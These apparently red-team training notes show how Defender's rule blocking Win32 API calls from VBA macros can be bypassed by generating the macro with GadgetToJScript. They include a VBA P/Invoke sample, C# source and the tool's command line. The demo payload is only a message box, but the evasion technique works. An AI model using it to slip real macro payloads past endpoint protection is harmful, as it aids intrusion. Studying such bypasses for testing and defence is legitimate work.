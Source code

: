 _"This rule prevents VBA macros from calling Win32 APIs."_

Many popular tools, such as [VBA-RunPE](https://github.com/itm4n/VBA-RunPE), use P/Invoke within VBA to carry out actions such as process injection.  The way this rule is implemented seems rather odd.  If you create a word document and attempt to pop a message box, it will work.

```vb
Private Declare PtrSafe Function MessageBoxA Lib "user32.dll" (ByVal hWnd As Long, ByVal lpText As String, ByVal lpCaption As String, ByVal uType As Long) As Long

Sub Exec()
    Dim Result As Long
    Result = MessageBoxA(0, "This is a test", "Hello World", 0)
End Sub
```

![[67. Block Win32 APIs.png]]

However, as soon as you try to save it to disk, Defender will block it.

![[68. Block Win32 APIs.png]]

I believe the rationale is that whenever you're sent a file, or you download one via a browser, Defender will delete it before it can be saved.  Even if you "open" a document from a browser, rather than "save" it, a temporary file is dropped to disk.  After some testing, I found that this rule only seems to be enforced when you P/Invoke directly from VBA - and not when it's done via [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript).

Create a new .cs file and enter the code you want to execute.  G2JS requires the code to execute be in the constructor.

```csharp
using System;
using System.Runtime.InteropServices;

public class Program
{
    [DllImport("user32.dll", CharSet = CharSet.Unicode)]
    static extern int MessageBoxW(IntPtr hWnd, string lpText, string lpCaption, uint uType);

    public Program()
    {
        MessageBoxW(IntPtr.Zero, "Hello from GadgetToJScript", "Hello World", 0);
    }
}
```

  

When we run G2JS, we provide the source code and specify the output type.

```
C:\Tools\GadgetToJScript>GadgetToJScript\bin\Debug\GadgetToJScript.exe -c TestAssembly\Program.cs -o C:\Users\Administrator\Desktop\vba -w vba -b
[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba
```
  

Copy the content of the VBA file, paste it into Word on WKSTN-2 and execute.

![[69. Block Win32 APIs.png]]
This document will save to disk - although Defender may complain about the content, it's thanks to a static G2JS signature, rather than anything to do with P/Invoke or APIs.